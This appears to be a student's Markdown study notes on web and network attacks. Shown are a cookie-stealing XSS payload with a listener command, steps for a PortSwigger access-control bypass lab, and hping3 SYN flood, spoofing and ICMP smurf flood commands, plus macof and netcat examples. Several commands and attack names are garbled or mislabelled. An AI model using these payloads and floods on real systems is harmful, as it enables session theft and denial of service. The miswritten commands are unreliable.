 # File Inclusion

Check for [File Inclusion Vulnerabilty](../day5/day5.md#file-inclusion-vulnerability) if you learn the basic working where we discuss how things really work in here.

# Direct Object Modal XSS

Refer to [OWASP DOM Based XSS Attack](https://owasp.org/www-community/attacks/DOM_Based_XSS) which tell about the making DOM based XSS Attack.

Steps to performing the practical is the following:

- Go to the page and make changes to the url, the redirected in *default* should be the following:

```
<script>window.location='http://127.0.0.1:1337/cookie?=' + document.cookie</script>
```

And this will get directed the attacker side machine which will be provide the attacker with the session id of the machine or the application that user will be using, say it could be *facebook* or say *youtube*, but the attack might be able to get the sesssion id.

For that attacker would be running an session capture mechanism on his side.

```
python -m http.server 1337
```

This command lets the attacker to listen on port 1337 where he can have the access of the session id.


# Reflected XSS

Refer to [OWASP XSS (Cross-site Scripting)](https://owasp.org/www-community/attacks/xss/) to learn more about it. 



# (ZAP) ZED Attacking Proxy

Move to Source Code Analysis tools, in order to see the tools that are used in order to identify that whether the source code is secure or not.

You can run ap in Kali Linux, using the following cmd.

```
sudo apt install zaproxy
```

It includes DAST and SAST.

# Method-based access control can be circumvented

It is the very vulnerability where normal users are able to promote themselves to the admin account using manipulation of the http requests. Our target is promte to normal user using the adminintrative priveleges by exploiting the method based flaws. Follow the [link](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented) to access the Lab.

Steps to do that:

- Open the lab and login in with credentials (administrator, admin) and see if you are able to upgrade the users, *which you'll be able to*, use burp-suite to track down the request made and **send it to the repeater**.

- Next, try to log in with normal user, and try to change the http request by copying the session id of the user that you've logged in as, and go to the repeater and change the session id of the request that was made with the new one.

- Now *double-click* and change the request to the GET, now change the username to the user you are logged in as and send the request, you'll noteice that you are able to make the change without being an administrator.

# Active Scanning and Finger-printing


```
sudo hping3 -s --scan $PORT_RANGE $TARGET_IP
```

This `-S` means that check for SYN packages, and specify the port range and target IP Address. It will give the command like this.

```
sudo hping3 -S -p 80 $TARGET_IP
```

This is only happen if the port number is open then only it will respond to the SYN message, otherwise it won't give you the message, otherwise it won't give you the response. 

Now in order you wish ro flood the request with the SYN packages, in order that the machine gets all the messages on the destination machine. **Do a experiment**, create two machine and run wireshark over both of them, when you'll start with the SYN flooding, you can check the wireshark to see how packets are going on both the machines. Destination machine will be occuring with high latency, because the website is bussy in reposding to SYN messages.

```
sudo hing3 -S -p 80 $TARGET_IP --flood
```

Use the following to flood the traffic between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP
```

But you can try to flood the SYN packages between the two IPs.

```
sudo hping -S -p $SOURCE_IP -a $DESTINATION_IP --flood
```

This is called **LAND Attack**, where we are spoofing the traffic which is going from your local machine but it seems like it is comming from machine.

```
sudo hping --icmp
```

# `hping3`:ICMP Smurfing Attack

You need to run one command and thing will start happening.

```
sudo hping3 --icmp -c 1 192.168.0.255 --rand-source --flood
```

This will send the ICMP messages to the Broadcast address of the router with some random IP address and flood the router with ICMP address, such that router will not be able to send reposnse to other machines in the network.

# `macof`: MAC Flooding 

It is a Layer 2 Attack and you can flood mac addresses and use the tool named **macof** to flood the mac addresses. 
```
sudo macof -i en9
```

And that's it, you'll be able to find the random MAC addresses generating out of nowhere. 

# `nc`: NetCat 

The command `nc` allows you to communicate with the other machine across your network, all you need to do is create a socket and bind it to the port and start the conversation.

```
# On Machine 1
nc -l 1337
```

Now on different machine, you can connect to the Machine 1 with the same port.

```
# On Machine 2
nc <ip-address> 1337
```

This will create a network and you'll be able to share the messages across.

# Resources

Visit the [portswigger website](https://portswigger.net/web-security) in order to learn more about the methods and latest web based hacks or vulnerabilities in order to protect the website from hacks and threats. 

Visit to [OWASP Input Validation](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html) to look how the inputs taken from the users can't be trusted, secure the methods of taking inputs.

1. Remember to read about the **SAST and DAST tools** and therefore look for it.
2. Read about MVC Structure. Also remember to look for Web Framework, Flask.
3. Js-gaurd is not secure, even if the website is full of virus, it won't block the website. *Need to check it!*

Visit [Offsec File Inclusion Vulnerability](https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/) to learn more about how things work, it explains the RFI as well as LFI.